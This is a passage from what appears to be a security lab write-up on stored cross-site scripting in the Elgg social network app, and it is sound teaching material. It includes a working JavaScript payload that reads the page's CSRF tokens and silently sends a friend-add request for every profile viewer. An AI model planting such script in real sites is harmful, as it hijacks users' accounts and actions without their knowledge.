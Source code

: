 Interestingly the `__elgg_ts` and `__elgg_token` parameters are repeated twice which is perhaps due to a bug in the frontend code!
This parameters are a security measure to prevent another attack called Cross-Site Request Forgery (CSRF) attack. But these won't stop us because we our code is treated like a part of the official Web App code by the browser meaning that we actually have access to this parameters.
Now that we know how to communicate with the backend, we are going to use Ajax to send a GET request like the one above to the backend:

```
<script>
    window.onload = function () {
        Ajax = null;
        let url =  `/action/friends/add?friend=59
        &__elgg_ts=${elgg.security.token.__elgg_ts}
        &__elgg_token=${elgg.security.token.__elgg_token}`

        Ajax = new XMLHttpRequest();
        Ajax.open('GET', url, true);
        Ajax.send();
    }

</script>

```

Now when alice views our profile page; in the background browser is sending a GET request to the server saying that alice has clicked on the add friend button (but she has not)!

![](screenshots/add-friend1.png)

![](screenshots/add-friend2.png)

### Questions:

* Question 1: Explain the purpose of Lines (1) and (2), why are they are needed?
